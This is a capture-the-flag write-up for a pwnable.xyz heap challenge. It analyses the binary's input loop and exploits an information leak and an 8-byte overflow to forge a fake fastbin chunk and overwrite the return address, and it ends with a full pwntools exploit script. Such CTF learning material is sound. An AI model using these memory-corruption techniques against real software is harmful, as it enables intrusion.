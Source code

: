 ## Observation
The program is a simple program that gets user input and does things in the background.
![image](https://github.com/marcorentap/hacking_grimoire/assets/17574533/5b85d1ed-4f44-467c-b84a-aec589aa69cd)

It only accepts integers 1-3. Examining the assembly code confirms this.
![image](https://github.com/marcorentap/hacking_grimoire/assets/17574533/a194b071-0936-44c5-9d4e-b5d2d82a4512)

User input goes through `atoi()` and goes into a kind of switch
- If user input equals 1, do `read()`
- If user input equals 2, do `printf_chk()`,
- If user input equals 3, do `movdqu`

Before getting into the details of what happens on valid inputs, we need to first understand the context

### Setup
![image](https://github.com/marcorentap/hacking_grimoire/assets/17574533/37d9c214-6c0f-4be4-8a48-51a618ea8f25)

In the function prologue, `r12`, `rbp` and `rbx` are pushed, `rsp` is decremented by `0x50` to store our stack variables and stack canary is set up. Note that the usual `push rbp`, `mov rsp, rsp` are not present here and `rbp` is not used as a frame pointer so the stack layout is as follows:
![stack_layout](https://github.com/marcorentap/hacking_grimoire/assets/17574533/0252c0ee-a123-49f6-b901-f80a018137ff)


Before entering the input loop at `0x004007f8`, we have `pHeapChunk = malloc(0x40)`

### Input Loop
![image](https://github.com/marcorentap/hacking_grimoire/assets/17574533/26e0aa77-2282-401d-a55f-09dd7bcdf10d)

At the beginning of the input loop, `arrcInputBuf` is zeroed out then filled with `read(0, &arrcInputBuf, 0x30)` and converted to integer with `atoi(&arrcInputBuf)` and the value is checked:
- If the input is 1, `*pHeapChunk` is filled with `read(0, pHeapChunk, 0x20)`
- If the input is 2, `&pHeapChunk` is printed
- If the input is 3, write double quadword of `*pHeapChunk` to `&vulnVar` with `movdqu`. Intuitively, this is effectively `memcpy(&vulnVar, pHeapChunk, 0x10)`
- If the input is 0, if `pHeapChunk` is `NULL`, then exit with error. Else, do `free(pHeapChunk)` and return

## Exploit
### Vulnerabilities
Option 2 is an (intentional) information leak which allows us to calculate the return address with `&returnAddr = &pHeapChunk + 0x58`. Intuitively,
- `rsp = &pHeapChunk - 0x10`
- `&returnAddr = rsp + 0x68`
- so `&returnAddr = (&pHeapChunk - 0x10) + 0x68`

Option 3 is an 8 byte buffer overflow which will set `pHeapChunk = *(pHeapChunk + 8)`. We can control what is written here with Option 1. Together, we can control where `pHeapChunk` points to and write there whatever we want.

Since the control flow to return must pass through `free(pHeapChunk)`, and to reach it `pHeapChunk` cannot be `NULL`, we must ensure that `pHeapChunk` is a valid pointer to chunk before returning. However, the address of the original heap chunk is not available so a fake chunk must be forged.

![image](https://github.com/marcorentap/hacking_grimoire/assets/17574533/7b3e0b82-744a-405b-8df5-7c8eab3a6e0a)

There are quite a few places we can write to but I chose `0x00601050` to write a 0x40 fastbin chunk.

The address of the win function `&win` is `0x00400a3e`

## Steps
1. Leak `&pHeapChunk` with option 2 and calculate `&returnAddr`
2. Set `*(pHeapChunk + 8) = &returnAddr` with option 1
3. Set `pHeapChunk = (*pHeapChunk + 8)` with option 3. Now `pHeapChunk = &returnAddr`
4. Set `*pHeapChunk = &winAddr` and `*(pHeapChunk + 8) = &fakeChunk - 8` with option 1. Now `returnAddr = &winAddr`

7. Set `pHeapChunk = (*pHeapChunk + 8)` with option 3. Now `pHeapChunk = &fakeChunk - 8`, the fake chunk's size field address
8. Set `*pHeapChunk = 0x40` and `*(pHeapChunk + 8) = &fakeChunk` with option 1. Now the fake chunk's size is set to 0x40
7. Set `pHeapChunk = (*pHeapChunk + 8)` with option 3. Now pheapChunk points to a valid chunk
8. Exit with option 0

### Code
To be consistent with C notation, I use camelCase in python exploits and `varName_addr` means `&varName`. Please bear with the `returnAddr_addr`

```python
from pwn import *

p = remote("svc.pwnable.xyz", 30005)

SA = lambda data : p.sendafter(b">", data)
S = lambda data : p.send(data)

win_addr = 0x00400a3e
fakeChunk_addr = 0x00601050

# Calculate &returnAddr from leaked &pHeapChunk
SA(b"0" * 0x2f + b"2")
pHeapChunk_addr = int(p.recvline(), 16)
returnAddr_addr = pHeapChunk_addr + 0x58
print(f"&pHeapChunk: {pHeapChunk_addr:016x}")
print(f"&returnAddr: {returnAddr_addr:016x}")

SA(b"0" * 0x2f + b"1")
S(p64(0) + p64(returnAddr_addr)) # *(pHeapChunk + 8) = &returnAddr

SA(b"0" * 0x2f + b"3") # pHeapChunk = &returnAddr
SA(b"0" * 0x2f + b"1")
S(p64(win_addr) + p64(fakeChunk_addr - 8)) # *pHeapChunk = &win, *(pHeapChunk + 8) = &fakeChunk - 8

SA(b"0" * 0x2f + b"3") # pHeapChunk = &fakeChunk - 8
SA(b"0" * 0x2f + b"1")
S(p64(0x40) + p64(fakeChunk_addr)) # *pheapChunk = 0x40, *(pHeapChunk + 8) = &fakeChunk

SA(b"0" * 0x2f + b"3") # pHeapChunk = &fakeChunk
SA(b"0" * 0x2f + b"0") # exit :)
```
